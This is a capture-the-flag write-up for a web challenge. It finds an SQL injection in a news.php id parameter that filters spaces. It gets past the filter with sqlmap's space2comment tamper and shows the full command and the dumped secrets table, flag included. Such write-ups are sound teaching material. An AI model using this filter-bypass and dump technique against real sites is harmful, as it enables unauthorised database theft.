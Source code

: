 # Whitespace Writeup

>Flag: FNW_CTF{34sy_byp4ss_sql_1njection_f1lt3r_sp4c3}

First glance at the website:

![image](https://user-images.githubusercontent.com/80664686/117593090-237add80-b165-11eb-9607-b1559c3afe53.png)

## Tinkering around
The website had 3 main page: `index.php`, `price.php` and `contact.php`

In **price.php** and **contact.php** there's nothing special.

In the news part, when checking out a post, it goes to an URL:
> http://chall9.ctf.night-wolf.io/news.php?id=10

Hmm... that id part must have something.

After testing for a while, I found out that when input is `+`, `;` and ` `(space) it will prompt:

![image](https://user-images.githubusercontent.com/80664686/117595342-bff3ae80-b16a-11eb-8a24-feff8736247d.png)

This must be it, also I was hint for *SQLi*.

## Exploitation

Send this to `sqlmap` to run. Because of white space retriction, we can use tamper script `space2comment`

```fish
$ sqlmap -u chall9.ctf.night-wolf.io/news.php?id=1 --tamper=space2comment --batch --dump
```
Result:
```
...
Database: news_app
Table: secrets
[4 entries]
+-----------+--------------+-------------------------------------------------+
| secret_id | name         | value                                           |
+-----------+--------------+-------------------------------------------------+
| 1         | secret_key   | ZEwI6DHBIzKKU5D4gquM/A==                        |
| 2         | password_key | 3a8756aa44595874dc665429d209e43e                |
| 3         | token_key    | 28f27090594826e0915eecc2a06707e3fec41666        |
| 4         | flag         | FNW_CTF{34sy_byp4ss_sql_1njection_f1lt3r_sp4c3} |
+-----------+--------------+-------------------------------------------------+

...
```
🎉🎉🎉

